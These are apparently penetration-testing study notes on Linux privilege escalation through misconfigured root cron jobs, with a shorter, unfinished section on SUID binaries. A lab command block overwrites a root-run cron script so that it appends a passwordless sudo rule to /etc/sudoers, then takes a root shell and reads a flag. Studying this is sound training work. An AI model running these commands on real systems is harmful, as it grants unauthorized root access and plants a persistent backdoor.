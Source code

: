 ### Misconfigured CRON jobs

#### Description

* Linux implemented task scheduling through a utility called Cron.
* Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.
* An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to systems upgrades and patches.
* The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created.

#### Exploitation

* Cron jobs can also be run as any user on the system, this is a very important factor to keep an eyes on as we will be targeting Cron jobs that have been configured to be run as the `root` user.
* This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access.
* In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.

#### Lab

```bash
groups
cat /etc/passwd
crontab -l
ls -la
grep -rnw /usr -e "/home/student/message"
cat /tmp/message
ls -la /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
sudo -l
sudo su
cat /root/flag
crontab -l
```

### Exploiting SUID binaries

#### Description

* In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialized permissions that can be utilized in specific situations. One th these access permissions is the SUID (Set Owner User ID) permission.
* When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary.
* SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with `root` permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if improperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.
* This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of our attack will depend on the following factors :
  * Owner of the SUID binary : given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the `root` user or other privileged users.
  * Access permissions : we will require executable permissions in order to execute the SUID binary.
